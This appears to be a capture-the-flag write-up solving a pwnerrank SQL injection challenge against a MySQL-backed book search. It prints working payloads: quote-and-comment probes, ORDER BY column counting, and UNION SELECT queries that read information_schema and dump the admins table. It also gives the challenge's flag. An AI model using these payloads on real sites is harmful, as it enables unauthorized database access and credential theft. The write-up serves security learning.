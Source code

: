# Writeups for pwnerrank challenges

## SQL injection - Dump Database https://www.pwnerrank.com/tasks/sql-injection-dump-database

Side note: This challenge took somewhere around 2 hours to solve, I was not familiar with many of the SQLi techniques required to solve this challenge but knew where to look to learn.
To anyone learning and stuck just Try Harder! SQL injection cheat sheets are you friend, pay attention to details in the syntax! Before 'cheating' look up some of the talk by Joe McCray on SQL injection (Defcon 17 talk will help with this challenge). Incredibly valuable stuff and really fun to watch.  He explains his thought process going through SQLi.  (Keep in mind his Defcon17 talk uses MS SQL not MySQL so there will be syntax differences)

"DEF CON 17 - Joseph McCray - Advanced SQL Injection"
https://www.youtube.com/watch?v=-AkUutmXwUI


### Objective
Steal the admin password

### Verifying SQL Injection
First step was to learn how the web application works, then try to verify SQL injection.  The page features a single text form that is used to search the small database.  The text form searches the "Book" and "Author" fields but not the "Price field".

On to SQL injection. I tried the following basic SQL injections too see if I could learn some information about what database backend was in use.

```a'or 1=1
a" or 1=1
a' or '1'='1
a" or '1'='1
```

The following next injection I tried `a' or '1'='1'` generated a MySQL Syntax error:
```DB Error, could not query the database MySQL Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '1'='1'%'' at line 1```


Time to add a MySQL comment `#` or `-- ` to the end and see if it works. `a' or '1'='1'#` Success! No error is generated, and all the contents are displayed.
![pic1]
[pic1]: https://raw.githubusercontent.com/Freakazoidile/ctf_challenges/master/pwnerrank/Web%20Exploitation/sql-injection-dump-database-1.png

The fact that all the records are shown and no error is generated indicates `or 1=1` was executed.

### SQL Query
Now that SQL injection is verified and I know the database backend in use, MySQL.  Now I can create what I think is the SQL query in use to build on and understand how more queries will work.

Combining the knowledge of the application functionality (searching the Book and the Author field) the SQL query probably looks something like:
`SELECT book, author, price from books where book like '$userinput' or author like '$userinput';`

### Determining Amount of Columns and Collection More Information
The next step is to determine the amount of fields and gather some general information like the MySQL version or the user running the database.

The database has atleast 3 columns. So using `ORDER BY` we can being enumuration. First lets verify the `ORDER BY` query will work.

```' order by 1#```

Great it works, let's see how many columns there is.

```' order by 3#```
3 columns, works as expected.

```' order by 4#```
4 columns, no errors yet.

```' order by 5#```
ERROR! Number of columns in the current table is 4.


Moving forward it's time to check to see what columns are being printed to the screen.

```' or 1=1 union all select 1,2,3,4#```

The above query outputs:
![pic2]
[pic2]: https://raw.githubusercontent.com/Freakazoidile/ctf_challenges/master/pwnerrank/Web%20Exploitation/sql-injection-dump-database-2.png


So the paramters 2, 3 and 4 get printed to screen, so we can change these to database columns and gather information from.

First check for the MySQL version and user.

```' or 1=1 union all select 1,version(),user(),4#```

![pic3]
[pic3]: https://raw.githubusercontent.com/Freakazoidile/ctf_challenges/master/pwnerrank/Web%20Exploitation/sql-injection-dump-database-3.png
As can be seen version 5.5.53 of MySQL is likely in use and what looks like a debian operating system 'deb' version 8u1? Searching `5.5.53-0+deb8u1` on Google reveals this is correct.


### Getting the flag!
Now that we can use SQL union queries to get information we can find the admin password.  First step is to find the right table. Time to use the `information_schema` table (hopefully we have access to read it) to see what other tables and columns exist.

```' or 1=1 union all select 1,table_name,3,4 from information_schema.tables#```
This reveals alot of tables, 42 to be exact. The last two tables are `admin` and `books`. Lets see what columns are in the `admin` table.

```' or 1=1 union all select 1,column_name,3,4 from information_schema.columns where table_name like 'admins'#```

Results show the following columns are present in the admin table: `id`, `username`, `password`, `email`.
The goal is to get the `admin` password, lets try and dump the passwords from the admin table.

```' or 1=1 union all select 1, username, 3, 4 from admins#```

Success, the flag has been claimed! Looks like there is only one entry in the admins database. 

`pwnerrank{t0mcaTTacm0t}`






